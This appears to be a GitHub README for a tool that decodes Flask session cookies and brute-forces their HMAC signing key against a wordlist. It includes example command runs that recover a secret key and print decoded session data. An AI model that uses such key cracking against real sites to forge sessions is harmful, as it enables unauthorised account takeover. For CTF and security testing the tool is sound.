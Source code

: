 # flask_util
Tools to decode and crack flask session encoded cookie

Cookies have the following format:

eyJfZmxhc2hlcyI6W3siIGRpIjp7IiB0X18iOlsibWVzc2FnZSIsIlBsZWFzZSBsb2cgaW4gdG8gYWNjZXNzIHRoaXMgcGFnZS4iXX19XX0.XqwoIA.TzwbrYVtTnZrttEZXCPODjhARBg

=> The first part (before .) contain json encoded in base64 format  
=> The second part contain a timestamp encoded in base64 format  
=> The last part contain an HMac signature  



.eJwdisEKgCAQBX9leefoA_yK7iKy2KaCZbDexH_PPM3ATIe_CmsShbEddGaYBe-XtJ8Wt6hyFGw4irAKlRopP9QqcQgzUktZ6Z3PDjfGcOMDLjMeHA.XqwoIA.MYvHl4W55MChmAIZRxkWdAXCxn8

=> The first part (before .) contain json compressed (zlib) then encoded in base64 format  
=> The second part contain a timestamp encoded in base64 format  
=> The last part contain an HMac signature  

# Requirements

This tools needs python3

# Installation
```
git clone https://github.com/mprunet/flask_util.git
cd flask_util
```

Create a virtual environment dedicated in order to keep your linux clean (Optional):
```sh
python3 -m venv flask-util-env
```

Activate your environment
```sh
source flask-util-env/bin/activate
```

Install flask
```sh
pip install flask
```

# Decode Session:
Extract your cookie from HTTP:

```
user@kali:~/flask_util/python decode.py .eJy9kM9OwzAMxl8ly3lCaeL821MgOHBA0-QmTlvRtajONKFp707gwI0b4mRZ_r7PP_smT2VGHonl4fUmRW1FnokZB5J7-TgTMol5HcS0iLoKTKkNRR0nFu9N8yCP9_3f-Z5omLhuWKd1Ec-Xb1O5zDvxQnNazyTO67T7ZSUyX9ctiyuySCMuA2XBPxHzxz-TVuL6hXrctxdvxKM8FJyZWjtleZDOAqTYh0S9xV6nqLUKJXQho_FUwAaE3IMBn52iEIM2uU86uZy0cQHAk3beB8gqonVOe1805oh90ZmMNioEiGQVGlAOLEYN0Hm0MZvYWdtuSLyVU13faGk8FLvgvKKYyHa5byIXkNC2REqgQkcdYIIs758pxrMs.Xqwd5g.oIUztGA_RLVRAZRZzq2nRUpBrX4

Your cookie is compressed with zlib
b'{"_flashes":[{" t":["message","Please log in to access this page."]},{" t":["message","Please log in to access this page."]},{" t":["message","Registration Successful! Welcome moi!"]},{" t":["message","Password was changed successfully"]},{" t":["message","Please log in to access this page."]},{" t":["message","Registration Successful! Welcome test!"]}],"_fresh":false,"_id":"6544c9b8ceb5ab2c92208f818da37ef458a4db4347d60e89823dbc2c6dc2368447e267784d09a566277f2ad9abf2de32308849e50a340645a924417a59d39155","csrf_token":"e918670e9ce51dbd3968aea5d9aec4081e14ac4d"}'
2020-05-01 13:02:30+00:00
SHA1 HMAC: a08533b4603f44b551019459ceada7454a41ad7e
```

# Brute force HMAC Key
```
user@kali:~/flask_util$ python bruteforce.py .eJwdisEKgCAQBX9leefoA_yK7iKy2KaCZbDexH_PPM3ATIe_CmsShbEddGaYBe-XtJ8Wt6hyFGw4irAKlRopP9QqcQgzUktZ6Z3PDjfGcOMDLjMeHA.XqwnVA.HgsSoKDefYAToB3Sv-JQAhpDG_0 /tmp/rockyou.txt 
Secret key: 0000000                
```

The script is configured for SHA1 HMac, you can change this behaviour in the source code
```
                signer_kwargs={
                    'key_derivation': 'hmac',
                    'digest_method' : hashlib.sha1
                    })
```

